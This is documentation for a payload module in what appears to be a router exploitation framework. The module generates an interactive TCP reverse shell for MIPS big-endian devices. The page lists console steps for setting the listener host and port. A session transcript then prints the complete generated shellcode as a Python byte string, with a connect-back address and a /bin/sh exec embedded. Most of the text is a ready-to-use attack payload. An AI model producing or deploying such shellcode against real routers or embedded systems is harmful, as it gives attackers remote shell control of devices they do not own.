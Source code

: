 ## Description

Module generates payload that creates interactive tcp reverse shell for MIPSBE architecture.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/mipsbe/reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Module generates mipsbe reverse shell tcp payload

## Scenarios

```
rsf > use payloads/mipsbe/reverse_tcp
rsf (MIPSBE Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (MIPSBE Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (MIPSBE Reverse TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x28\x04\xff\xff\x24\x02\x0f\xa6\x01\x09\x09\x0c\x28\x04\x11"
    "\x11\x24\x02\x0f\xa6\x01\x09\x09\x0c\x24\x0c\xff\xfd\x01\x80"
    "\x20\x27\x24\x02\x0f\xa6\x01\x09\x09\x0c\x24\x0c\xff\xfd\x01"
    "\x80\x20\x27\x01\x80\x28\x27\x28\x06\xff\xff\x24\x02\x10\x57"
    "\x01\x09\x09\x0c\x30\x44\xff\xff\x24\x02\x0f\xc9\x01\x09\x09"
    "\x0c\x24\x02\x0f\xc9\x01\x09\x09\x0c\x3c\x05\x00\x02\x34\xa5"
    "\x10\xe1\xaf\xa5\xff\xf8\x3c\x05\xc0\xa8\x34\xa5\x01\x04\xaf"
    "\xa5\xff\xfc\x23\xa5\xff\xf8\x24\x0c\xff\xef\x01\x80\x30\x27"
    "\x24\x02\x10\x4a\x01\x09\x09\x0c\x3c\x08\x2f\x2f\x35\x08\x62"
    "\x69\xaf\xa8\xff\xec\x3c\x08\x6e\x2f\x35\x08\x73\x68\xaf\xa8"
    "\xff\xf0\x28\x07\xff\xff\xaf\xa7\xff\xf4\xaf\xa7\xff\xfc\x23"
    "\xa4\xff\xec\x23\xa8\xff\xec\xaf\xa8\xff\xf8\x23\xa5\xff\xf8"
    "\x27\xbd\xff\xec\x28\x06\xff\xff\x24\x02\x0f\xab\x00\x90\x93"
    "\x4c"
)
```
